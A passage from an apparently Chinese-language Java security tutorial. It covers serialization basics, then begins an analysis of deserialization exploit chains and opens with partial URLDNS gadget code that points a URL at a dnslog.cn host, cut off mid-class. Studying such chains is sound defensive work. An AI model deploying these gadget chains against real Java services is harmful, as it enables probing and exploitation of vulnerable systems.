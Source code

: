 ![img5](img/8-deserialize/img5.png)





#### 特点/应用场景

- 常用与服务器之间的数据传输,序列化成文件,反序列化读取数据
- 常用使用套接字流在主机之间传递对象
- 需要序列化的文件必须实现Serializable接口,用来启用序列化功能
- 在反序列化时,如果和序列化的版本号不一致,无法完成反序列化

补充

- 不需要序列化的数据可以修饰成static,原因:static资源属于类资源,不随着对象被序列化输出

- 不需要序列化的数据也可以被修饰成transient(临时的),只在程序运行期间在内存中存在,不会被序列化持久保存

- 每一个被序列化的文件都有一个唯一的id,如果没有添加此id,编译器会自动根据类的定义信息计算产生一个

- 读写顺序一致

- 内部属性的类型也需要实现 Serializable 接口

- 具有继承性,父类可以序列化那么子类同样可以（递归）

  

### Java反序列化漏洞利用链条分析

#### URLDNS链

```java
package com.hillstonenet;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> hash = new HashMap<URL,Integer>();
        URL url = new URL("http://esnir1.dnslog.cn");
        //先反射获取URL类中的hashcode属性
```